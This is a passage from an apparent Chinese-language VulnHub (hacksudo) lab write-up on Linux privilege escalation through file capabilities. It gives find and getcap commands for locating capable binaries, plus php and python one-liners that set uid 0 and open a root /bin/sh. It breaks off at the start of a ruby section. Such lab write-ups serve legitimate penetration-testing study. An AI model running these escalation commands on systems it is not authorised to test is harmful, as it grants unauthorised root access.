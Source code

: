 使用`find`寻找

```shell
find / -type f -executable 2>/dev/null | xargs /usr/sbin/getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\50.jpg)

查看用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\51.jpg)

```shell
cp $(which php) .
sudo setcap cap_setuid+ep php

CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"
```

进行提取

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\52.jpg)

## python语言

使用`find`寻找

```shell
find / -type f -executable 2>/dev/null | xargs /usr/sbin/getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\53.jpg)

查看用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\54.jpg)

```shell
cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\55.jpg)



## ruby语言

使用`find`寻找

```shell
find / -type f -executable 2>/dev/null | xargs /bin/sbin/getcap -r 2>/dev/null
```
